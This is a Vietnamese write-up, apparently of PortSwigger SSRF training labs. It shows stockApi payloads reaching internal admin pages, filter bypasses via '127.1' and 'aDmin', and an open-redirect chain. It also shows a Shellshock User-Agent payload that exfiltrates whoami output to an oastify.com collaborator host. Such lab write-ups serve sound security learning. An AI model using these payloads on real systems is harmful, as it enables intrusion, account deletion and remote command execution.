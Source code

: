 # 1. Basic SSRF against the local server
Truy cập /admin, ta nhận được thông báo: "Admin interface only available if logged in as an administrator, or if requested from loopback".

Khi sử dụng chức năng checkStock, request `POST /product/stock` với parameter `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1`. Như vậy ta sẽ thử thay đổi stockApi để access trang admin với tư cách localhost.

Thay đổi tham số `stockApi=http://localhost/admin`, kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205523955-5692177a-7acd-42ba-ac37-2f98bbff4ebb.png)

Thay đổi `stockApi=http://localhost/admin/delete?username=carlos` để giải bài lab.

# 2. Basic SSRF against another back-end system
Đưa request `POST /product/stock` vào Intruder với payload: `stockApi=http%3A%2F%2F192.168.0.0%3A8080`, thực hiện bruteforce chữ số cuối trong IP address với phạm vi từ 0 đến 255. Ta thấy chỉ với IP 192.168.0.151 thì hiển thị mã lỗi 404:

![image](https://user-images.githubusercontent.com/103978452/205553868-d23ea3bc-56bf-4d80-b9b9-1a4c891116c7.png)

Thay đổi tham số `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin`, ta truy cập trang admin thành công. Tiếp tục thay đổi thành `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin%2Fdelete?username=carlos` để xóa user carlos.
![image](https://user-images.githubusercontent.com/103978452/205554210-25fe920a-1573-4b04-93c7-10a8a9521c06.png)

# 3. SSRF with blacklist-based input filter
Thay đổi `stockApi=http://localhost` thì thấy thông báo lỗi "External stock check blocked for security reasons"

Thay đổi thành `stockApi=http://127.1`, kết quả thành công. Tuy nhiên khi truy cập admin `stockApi=http://127.1/admin` thì lại hiển thị lỗi. Như vậy có khả năng server đã chặn từ khóa "admin".

Ta thử thay đổi `stockApi=http://127.1/aDmin`, kết quả truy cập trang admin thành công. Sau đó lại đổi thành `stockApi=http://127.1/aDmin/delete?username=carlos`, kết quả user carlos bị xóa.

![image](https://user-images.githubusercontent.com/103978452/205544461-b7b85229-b774-4cea-8c2f-f2eaeff2db71.png)

# 4. SSRF with filter bypass via open redirection vulnerability
Thử với tham số `stockApi=http%3A%2F%2F192.168.0.12%3A8080%2Fadmin`, kết quả không thành công. Như vậy không thể sử dụng chức năng stock check để truy cập một URL trực tiếp như vậy.

Thử thay đổi tham số `stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D3%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin`, ta thấy thành công và kết quả trả về là trang admin.

Để xóa user carlos, ta thay đổi tham số stockApi thành `stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D3%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos`. Kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205566041-5c14d2f9-1c00-4743-86d5-7e45b055542b.png)

# 5. Blind SSRF with out-of-band detection
Trong request `GET /product?productId=2`, ta thay đổi header Refererer trỏ đến địa chỉ của Burp Collaborator server (`Referer: https://c9moh0mqbmk53klvhwgtfmzsmjs9gy.oastify.com`). Resend request, ta thấy trong Burp Collaborator client nhận được các request gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/205568329-61e71132-5286-4bec-a560-855a51002781.png)

# 6. SSRF with whitelist-based input filter

# 7. Blind SSRF with Shellshock exploitation
Khi thay đổi Referrer trong request `/product?productId=1` thành địa chỉ của Burp Collaborator, nhận thấy request được gửi đến. Như vậy server sẽ truy cập địa chỉ có trong header Referrer.

Ta cấu hình kịch bản tấn công như sau:
1) Thay đổi Referrer thành 192.168.0.X (là server có lỗ hổng ShellShock)
2) Cấu hình tấn công ShellShock để từ máy chủ 192.168.0.X sẽ gửi request đến Burp Collaborator mà ta kiểm soát. Trong request có chứa thông tin ta cần lấy.

Ta sẽ thử thực hiện tấn công Shell shock qua header User-Agent. Đưa request vào Intruder rồi thay đổi như sau:

![image](https://user-images.githubusercontent.com/103978452/206390976-3224b8ca-3593-4d11-8302-76ff046a8256.png)
Chú ý đến hai header là Referrer và User-Agent. Sau khi thực hiện bruteforce 192.168.0.X với X trong phạm vi từ 0-256, vào Burp Collaborator Client kiểm tra, ta thấy có request được gửi đến.

![image](https://user-images.githubusercontent.com/103978452/206391184-c8b923df-ed65-4332-948e-86f59ae5d59a.png)

Như vậy ta có thể exploit Shell Shock vulnerability theo cách này. Thay đổi header User-Agent như sau:
```
User-Agent: () { :; }; /bin/ping $(whoami).6u1yt7352rpz2mzz9d2l02wi89ez2o.oastify.com
```
Thực hiện bruteforce như trước đó, rồi kiểm tra trong Burp Collaborator Client thì thấy có request chứa thông tin lệnh `whoami` được gửi đến

![image](https://user-images.githubusercontent.com/103978452/206391484-67f30bd2-16c2-4ac8-ab41-cb859850dfe2.png)

Dùng thông tin có được để submit, bài lab đã được giải.
